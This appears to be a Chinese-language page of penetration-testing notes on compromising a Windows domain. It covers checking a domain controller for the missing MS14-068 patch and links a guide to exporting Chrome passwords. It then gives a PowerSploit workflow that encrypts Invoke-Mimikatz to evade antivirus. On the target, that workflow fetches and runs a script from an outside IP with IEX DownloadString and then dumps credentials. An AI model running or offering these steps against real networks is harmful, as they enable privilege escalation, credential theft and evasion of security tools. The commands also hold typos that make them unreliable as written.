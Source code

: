 当我们拿到了一个普通域成员的账号后，想继续对该域进行渗透，拿到域控服务器权限。如果域控服务器存在 MS14_068 漏洞，并且未打补丁，那么我们就可以利用 MS14_068 快速获得域控服务器权限。

MS14-068编号 CVE-2014-6324，补丁为 3011780 ，如果自检可在域控制器上使用命令检测。

```bash
Copysysteminfo |find "3011780"
#为空说明该服务器存在MS14-068漏洞
```





### 导出chrome密码

https://mp.weixin.qq.com/s?__biz=MzIzOTg0NjYzNg==&mid=2247483949&idx=1&sn=db4853c88e4bf0a550c095d9017a363c&chksm=e92297aede551eb815a604ba944c4666b260c5bfe044e1b3a60946b586fd5679e29db0adf18d&mpshare=1&scene=23&srcid=&sharer_sharetime=1582350092849&sharer_shareid=d32981e13d51bf06188894426d2a54e5#rd



也有其他工具



### 免杀

Powersploit中提供的很多工具都是做过加密处理的，同时也提供了一些用来加密处理的脚本，Out-EncryptedScript就是其中之一。

首先在本地对Invoke-Mimikatz.ps1进行加密处理：

```powershell
Copypoweshell.exe Import-Module .\Out-EncryptedScript.ps1
poweshell.exe Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password 密码 -Salt 随机数
#默认生成的文件是evil.ps1

-Password   设置加密的密钥
-Salt       随机数，防止被暴力破解
```

将加密生成的evil.sp1脚本放在目标机上，执行如下命令：

```powershell
Copy#远程加载解密脚本
poweshell.exe 
IEX(New-Object Net.WebClient).DownloadString("http://1.1.1.32/PowerSploit/ScriptModification/Out-EncryptedScript.ps1")

[String] $cmd = Get-Content .\evil.ps1
Invoke-Expression $cmd
$decrypted = de password salt
Invoke-Expression $decrypted
Invoke-Mimikatz
```





也可以自己修改mimikatz源码进行免杀。


